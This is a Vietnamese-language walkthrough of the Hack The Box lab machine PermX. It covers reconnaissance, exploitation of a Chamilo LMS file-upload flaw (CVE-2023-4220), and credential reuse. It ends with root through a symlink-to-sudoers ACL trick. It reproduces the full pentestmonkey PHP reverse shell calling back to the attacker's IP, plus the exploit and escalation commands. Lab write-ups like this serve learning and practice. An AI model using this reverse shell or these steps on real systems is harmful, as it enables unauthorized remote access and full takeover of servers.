

PermX là một máy đơn giản lợi dụng lỗ hổng [CVE-2023-4220](https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949) để upload shell và lấy rce.

## Reconnaissance and Scanning

```python
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
|   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
80/tcp open  http    syn-ack Apache httpd 2.4.52
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thêm domain **permx.htb** vào file host. Truy cập lại thì cũng không có gì thay đổi. Tuy nhiên, khi có domain thì tôi sẽ nghĩ đến việc tìm subdomain hoặc vhost

Sử dụng ffuf

```python
┌──(neo㉿n0b0dy)-[~/HTB/PermX]
└─$ ffuf -r -w /usr/share/seclists/Discovery/DNS/namelist.txt -u "http://permx.htb" -H "Host: FUZZ.permx.htb" -t 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 64ms]
9                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 66ms]
01                      [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 69ms]
3                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 68ms]
6                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 79ms]
3com                    [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 79ms]
a01                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 69ms]
4                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 79ms]
8                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 67ms]
02                      [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 67ms]
a                       [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 69ms]
```

Tất cả đều là có thể truy cập được, điều này không đúng lắm. Khi sử dụng burpsuite để kiếm tra độ dài của response thì tôi nhận được kết quả cũng là 36182 giống với size mà ffuf đã quét ra được.

Tôi sẽ sử dụng thêm 1 vài options để bỏ qua tất cả các kết quả có size:36182 vì tôi biết chắc chắn nó không đúng. 

Tôi sẽ thêm *-o* để ffuf ghi kết quả ra file và dùng *grep* để lấy ra các kết quả không phải là 36182

```python
┌──(kali㉿kali)-[~/HTB/BoardLight]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.permx.htb" -u http://permx.htb -t 30 -o - | grep -v "36182"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Output file      : -
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 397, Lines: 150, Duration: 121ms]
```

Thêm nó vào file host và truy cập http://lms.permx.htb


## Enumeration

```bash
┌──(neo㉿n0b0dy)-[~]
└─$ whatweb http://lms.permx.htb
http://lms.permx.htb [200 OK] Apache[2.4.52], Bootstrap, Chamilo[1], Cookies[GotoCourse,ch_sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[GotoCourse,ch_sid], IP[10.10.11.23], JQuery, MetaGenerator[Chamilo 1], Modernizr, PasswordField[password], PoweredBy[Chamilo], Script, Title[PermX - LMS - Portal], X-Powered-By[Chamilo 1], X-UA-Compatible[IE=edge]
```

Tôi có 1 form đăng nhập và có 1 cái tên Chamilo 1. Đây có thể là trình quản trị của site này và phiên bản của nó.

Thử đăng nhập với những tài khoản đơn giản nhưng không có kết quả, tôi sẽ thử tìm kiếm các lỗ hổng Chamilo

```bash
┌──(neo㉿n0b0dy)-[~]
└─$ searchsploit chamilo 1
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                   |  Path
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chamilo 1.8.7 / Dokeos 1.8.6 - Remote File Disclosure                                                                                            | php/webapps/16114.txt
Chamilo LMS - Persistent Cross-Site Scripting                                                                                                    | php/webapps/39474.txt
Chamilo LMS 1.11.14 - Account Takeover                                                                                                           | php/webapps/50694.txt
Chamilo LMS 1.11.14 - Remote Code Execution (Authenticated)                                                                                      | php/webapps/49867.py
Chamilo LMS 1.11.8 - 'firstname' Cross-Site Scripting                                                                                            | php/webapps/45536.txt
Chamilo LMS 1.11.8 - Cross-Site Scripting                                                                                                        | php/webapps/45535.txt
Chamilo LMS 1.9.10 - Multiple Vulnerabilities                                                                                                    | php/webapps/36435.txt
Chamilo Lms 1.9.6 - 'profile.php?password' SQL Injection                                                                                         | php/webapps/30012.txt
Chamilo LMS 1.9.8 - Blind SQL Injection                                                                                                          | php/webapps/36040.txt
Chamilo LMS IDOR - 'messageId' Delete POST Injection                                                                                             | php/webapps/39473.txt
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Thử một số exploit để xem có khai thác được không. Sử dụng *msfconsole*

```python
┌──(neo㉿n0b0dy)-[~]
└─$ msfconsole -q
msf6 > search chamilo

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/chamilo_unauth_rce_cve_2023_34960  2023-06-01       excellent  Yes    Chamilo unauthenticated command injection in PowerPoint upload
   1    \_ target: PHP                                      .                .          .      .
   2    \_ target: Unix Command                             .                .          .      .
   3    \_ target: Linux Dropper                            .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/chamilo_unauth_rce_cve_2023_34960
After interacting with a module you can manually set a TARGET with set TARGET 'Linux Dropper'

msf6 > use 1
[*] Additionally setting TARGET => PHP
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > options

Module options (exploit/linux/http/chamilo_unauth_rce_cve_2023_34960):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The Chamilo endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP


View the full module info with the info, or info -d command.
```

Thiết lập các tùy chọn

```python
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set rhosts lms.permx.htb
rhosts => lms.permx.htb
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set lhost tun0
lhost => 10.10.14.105
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > run

[*] Started reverse TCP handler on 10.10.14.105:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.11.23:80 can be exploited.
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. No valid response received from the target. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > run

[*] Started reverse TCP handler on 10.10.14.105:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.11.23:80 can be exploited.
[!] The target is not exploitable. No valid response received from the target. ForceExploit is enabled, proceeding with exploitation.
[*] Executing PHP for php/meterpreter/reverse_tcp
[-] Exploit aborted due to failure: payload-failed: Web shell upload error.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) >
```

Thử tìm kiếm các lỗ hổng khác trên internet, và tôi tìm thấy [CVE-2023-4220](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit). Lỗ hổng này cho phép tải file lên server theo path */main/inc/lib/javascript/bigupload/inc* + *tên file*, với action *post-unsupported*. Cuối cùng thực thi revershell vừa tải lên bằng cách sử dụng curl để truy cập vào nó.

## Gaining access

Đầu tiên, clone repo về

```
┌──(neo㉿n0b0dy)-[~/HTB/PermX/Chamilo-CVE-2023-4220-Exploit]
└─$ ll
total 12
-rwxr-xr-x 1 neo neo 2471 Jul 15 15:05 CVE-2023-4220.sh
-rw-r--r-- 1 neo neo 1205 Jul 15 15:05 README.md
```

Tiếp theo, tôi cần 1 revershell. Sử dụng pentestmonkey cho đơn giản, thay thế IP và port của mình.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.105';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Lưu nó lại trong thư mục repo. Cấp quyền thực thi cho exploit và chạy nó

```bash
┌──(neo㉿n0b0dy)-[~/HTB/PermX/Chamilo-CVE-2023-4220-Exploit]
└─$ chmod +x CVE-2023-4220.sh

┌──(neo㉿n0b0dy)-[~/HTB/PermX/Chamilo-CVE-2023-4220-Exploit]
└─$ ./CVE-2023-4220.sh
-e
All options -f, -h, and -p are required.
-e
Usage: ./CVE-2023-4220.sh -f reverse_file -h host_link -p port_in_the_reverse_file
-e
Options:
  -f    Path to the reverse file
  -h    Host link where the file will be uploaded
  -p    Port for the reverse shell

```

Thêm các options như yêu cầu, cần lưu ý port lắng nghe phải trùng với port đã cấu hình trong file revershell

```bash
┌──(neo㉿n0b0dy)-[~/HTB/PermX/Chamilo-CVE-2023-4220-Exploit]
└─$ ./CVE-2023-4220.sh -f rvshell.php -h http://lms.permx.htb -p 4444
-e
The file has successfully been uploaded.

-e #    Use This leter For Interactive TTY ;)
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg
-e
# Starting Reverse Shell On Port 4444 . . . . . . .
-e
listening on [any] 4444 ...
connect to [10.10.14.105] from (UNKNOWN) [10.10.11.23] 42054
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:01:39 up  6:38,  4 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1055): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@permx:/$
```

Do chưa có kinh nghiệm sử dụng Chamilo nên tôi đã hỏi ChatGPT để tìm thông tin đăng nhập được lưu ở đâu trong source code



Tìm *configuration.php*

```bash
www-data@permx:/$ find / -type f -name configuration.php 2>/dev/null
find / -type f -name configuration.php 2>/dev/null
/var/www/chamilo/app/config/configuration.php
/var/www/chamilo/plugin/sepe/src/configuration.php
```

```bash
www-data@permx:/$ cat /var/www/chamilo/app/config/configuration.php
cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6**********';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
 * Directory settings.
 */
// URL to the root of your Chamilo installation, e.g.: http://www.mychamilo.com/
$_configuration['root_web'] = 'http://lms.permx.htb/';
// Path to the webroot of system, example: /var/www/
$_configuration['root_sys'] = '/var/www/chamilo/';
// Path from your WWW-root to the root of your Chamilo installation,
// example: chamilo (this means chamilo is installed in /var/www/chamilo/
$_configuration['url_append'] = '';

/**
 * Login modules settings.
```

Kiểm tra */etc/passwd*

```bash
www-data@permx:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```

Như vậy ở đây tôi chỉ có 1 user **mtz**

```bash
www-data@permx:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jan 20 18:10 .
drwxr-xr-x 18 root root 4096 Jul  1 13:05 ..
drwxr-x---  6 mtz  mtz  4096 Jul 15 17:51 mtz
```

## User flag

Thử đăng nhập user **mtz** với password vừa tìm được trong file config

```bash
┌──(neo㉿n0b0dy)-[~]
└─$ ssh mtz@permx.htb
mtz@permx.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Jul 15 05:54:05 PM UTC 2024

  System load:           0.0
  Usage of /:            65.1% of 7.19GB
  Memory usage:          29%
  Swap usage:            0%
  Processes:             270
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.23
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f5a7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jul 15 17:41:49 2024 from 10.10.16.70
mtz@permx:~$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
mtz@permx:~$ ls -la user.txt
-rw-r----- 1 root mtz 33 Jul 15 05:02 user.txt
mtz@permx:~$
```

## Privilege escalation

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Kiểm tra file *acl.sh*

```bash
mtz@permx:~$ ls -la /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5 11:58 /opt/acl.sh
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
mtz@permx:~$
```

Bash script này kiểm tra sự tồn tại của file bên trong thư mục */home/mtz*, sau đó dùng **setfacl** để thay đổi ACL của file, cấp quyền cho user đã chỉ định.

Tôi sẽ tạo symbolc link từ một file trong */home/mtz* đến */etc/sudoers* và sau đó sử dụng */opt/acl.sh* để thay đổi quyền của symbolic link này

```bash
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers_link
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudoers_link
mtz@permx:~$ echo "mtz ALL=(ALL:ALL) ALL" >> /home/mtz/sudoers_link
```

Chuyển sang root

```bash
mtz@permx:~$ sudo su
[sudo] password for mtz:
root@permx:/home/mtz# id
uid=0(root) gid=0(root) groups=0(root)
root@permx:/home/mtz# cd
root@permx:~# pwd
/root
root@permx:~# ls -la root.txt
-rw-r----- 1 root root 33 Jul 15 18:01 root.txt
```
